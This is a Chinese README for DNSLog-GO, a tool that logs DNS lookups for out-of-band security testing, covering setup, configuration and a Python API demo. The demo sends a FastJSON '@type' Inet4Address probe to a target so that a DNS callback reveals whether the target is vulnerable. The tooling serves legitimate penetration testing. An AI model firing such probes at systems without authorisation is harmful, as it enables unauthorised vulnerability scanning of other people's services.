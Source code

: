 简介
---
DNSLog-GO 是一款golang编写的监控 DNS 解析记录的工具，自带多用户WEB界面

演示截图:

![avatar](https://github.com/lanyi1998/DNSlog-GO/raw/master/images/demo.png)

安装
---

详细图文教程:https://mp.weixin.qq.com/s/m_UXJa0imfOi721bkBpwFg

**个人单独使用推荐使用1.4版本 https://github.com/lanyi1998/DNSlog-GO/releases/tag/1.4**

**团队使用推荐使用 最新版**

# 1.获取发行版

这里 https://github.com/lanyi1998/DNSlog-GO/releases 下载最新发行版,并解压

# 2.域名与公网 IP 准备

```
搭建并使用 DNSLog，你需要拥有两个域名，一个域名作为 NS 服务器域名(例:a.com)，一个用于记录域名(例: b.com)。还需要有一个公网 IP 地址(如：1.1.1.1)
    
注意：b.com 的域名提供商需要支持自定义 NS 记录, a.com 则无要求。
    
在 a.com 中设置两条 A 记录：
    
ns1.a.com  A 记录指向  1.1.1.1        
ns2.a.com  A 记录指向  1.1.1.1
修改 b.com 的 NS 记录为 1 中设定的两个域名

本步骤中，需要在域名提供商提供的页面进行设置，部分域名提供商只允许修改 NS 记录为已经认证过的 NS 地址。所以需要找一个支持修改 NS 记录为自己 NS 的域名提供商。
    
注意: NS 记录修改之后部分地区需要 24-48 小时会生效
```

# 3.修改配置文件 config.ini

```
[HTTP]
Port = 8080  //http web监听端口
Token = admin1,admin2 //多个用户token，用,分割。可以团队成员一起使用了
ConsoleDisable = false //是否关闭web页面
    
[DNS]
Domain = demo.com //dnslog的域名
```

# 4.启动对应系统的客户端，注意服务端重启以后，必须清空一下浏览器中的localStorage,否则会获取不到数据

---

API Python Demo

```python
import requests
import random
import json


class DnsLog():
    domain = ""
    token = ""
    Webserver = ""

    def __init__(self, Webserver, token):
        self.Webserver = Webserver  # dnslog的http监听地址，格式为 ip:端口
        self.token = token  # token
        # 检测DNSLog服务器是否正常
        try:
            res = requests.post("http://" + Webserver + "/api/verifyToken", json={"token": token}).json()
            self.domain = res.Msg
        except:
            exit("DnsLog 服务器连接失败")
        if res["Msg"] == "false":
            exit("DnsLog token 验证失败")

    # 生成随机子域名
    def randomSubDomain(self, length=5):
        subDomain = ''.join(random.sample('zyxwvutsrqponmlkjihgfedcba', length)) + '.' + self.domain
        return subDomain

    # 验证子域名是否存在
    def checkDomain(self, domain):
        res = requests.post("http://" + self.Webserver + "/api/verifyDns", json={"Query": domain},
                            headers={"token": self.token}).json()
        if res["Msg"] == "false":
            return False
        else:
            return True


url = "http://192.168.41.2:8090/"

dns = DnsLog("1111:8888", "admin")

subDomain = dns.randomSubDomain()

payload = {
    "b": {
        "@type": "java.net.Inet4Address",
        "val": subDomain
    }
}

requests.post(url, json=payload)

if dns.checkDomain(subDomain):
    print("存在FastJosn")
```

## Stargazers over time

[![Stargazers over time](https://starchart.cc/lanyi1998/DNSlog-GO.svg)](https://starchart.cc/lanyi1998/DNSlog-GO)

## 404星链计划

<img src lazysrc="https://github.com/knownsec/404StarLink-Project/raw/master/logo.png" width="30%">

DNSlog-Go 现已加入 [404星链计划](https://github.com/knownsec/404StarLink)